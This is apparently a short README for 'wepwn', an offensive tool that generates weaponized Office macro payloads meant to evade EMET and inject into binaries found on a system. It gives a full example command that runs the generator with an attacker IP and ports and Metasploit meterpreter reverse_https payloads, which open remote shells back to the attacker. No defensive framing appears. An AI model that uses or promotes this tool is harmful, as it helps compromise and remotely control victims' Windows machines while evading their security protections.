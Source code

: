 wepwn - A generator to weaponize Macro payloads that can evade EMET and utilises native VB migration.<br>
<br>
binary-paths.txt: a list of paths you want to inject into<br>
payload-list.txt: a current list of supported payloads<br>
directory-paths.txt: a list of directories that you want to recursively search for binaries to inject into<br>

Metasploit framework must be installed. It is a requirement.<p>

Example Usage:<br>
python wepwn.py 192.168.32.129 192.168.32.129 443 80 --x86 windows/meterpreter/reverse_https --x64 windows/x64/meterpreter/reverse_https

Further: pip install termcolor
<p>
<img src="screenshots/screenshot1.png"/>

